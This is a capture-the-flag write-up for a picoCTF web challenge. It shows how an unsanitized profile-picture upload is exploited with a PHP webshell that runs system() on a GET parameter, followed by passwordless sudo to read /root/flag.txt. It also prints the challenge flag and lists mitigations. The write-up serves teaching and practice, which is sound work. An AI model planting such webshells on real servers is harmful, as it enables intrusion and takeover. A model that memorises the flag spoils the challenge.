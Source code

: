 # [n0s4n1ty 1](#)

## Challenge Information

- **Category**: Web Exploitation
- **Difficulty**: Medium
- **Description**: A developer has added profile picture upload functionality to a website. However, the implementation is flawed, and it presents an opportunity for you. Your ultimate goal is to find the hidden flag located in the `/root` directory.

## Solution Overview

This challenge involves exploiting an **unsanitized file upload** vulnerability that allows arbitrary files to be uploaded and executed on the server. By leveraging this weakness, we can gain a **remote shell**, escalate privileges if necessary, and retrieve the flag.

## Hints

- **File upload was not sanitized.**
- **Whenever you get a shell on a remote machine, check `sudo -l`.**

## Detailed Walkthrough

### Step 1: Locate the File Upload Functionality

1. Navigate to the provided web page.
2. Look for an **upload button** or a **form field** that accepts image files (e.g., `.jpg`, `.png`).
3. Upload a blank `.txt` file (e.g., `test.txt`) to verify that the upload function works.

### Step 2: Upload a Webshell

- Since `.php` files are not blocked, upload a **PHP webshell** such as:

```php
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd'] . ' 2>&1');
    }
?>
</pre>
</body>
</html>
```

- After uploading, the server confirms:
  ```
  The file webshell.php has been uploaded Path: uploads/webshell.php
  ```
- Access it in the browser:
  ```
  http://target.com/uploads/webshell.php?cmd=whoami
  ```

### Step 3: Privilege Escalation

1. Check for **sudo permissions** inside the webshell:
   ```bash
   sudo -l
   ```
   The output reveals:
   ```
   Matching Defaults entries for www-data on challenge:
       env_reset, mail_badpass, secure_path=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
   
   User www-data may run the following commands on challenge:
       (ALL) NOPASSWD: ALL
   ```
2. Since `www-data` has unrestricted sudo access, escalate privileges:
   ```bash
   sudo cat /root/flag.txt
   ```
3. Retrieve the flag:
   ```
   picoCTF{wh47_c4n_u_d0_wPHP_80eedb7d}
   ```

## Tools and Resources Used

- [`easy-simple-php-webshell.php`](https://gist.github.com/joswr1ght/22f40787de19d80d110b37fb79ac3985#file-easy-simple-php-webshell-php)
## Flag

```
picoCTF{wh47_c4n_u_d0_wPHP_80eedb7d}
```

## Learning Points

- How to exploit **unsanitized file uploads**
- Techniques for **bypassing file upload restrictions**
- Gaining **remote code execution** via **webshells**
- **Privilege escalation** techniques

## Mitigation Strategies

- **File Type Validation**: Restrict file uploads to only specific formats (e.g., `.jpg`, `.png`) using MIME type checks and server-side verification.
- **Least Privilege Principle**: Avoid running web applications as privileged users and restrict `sudo` access.

## References

- [easy-simple-php-webshell.php](https://gist.github.com/joswr1ght/22f40787de19d80d110b37fb79ac3985#file-easy-simple-php-webshell-php)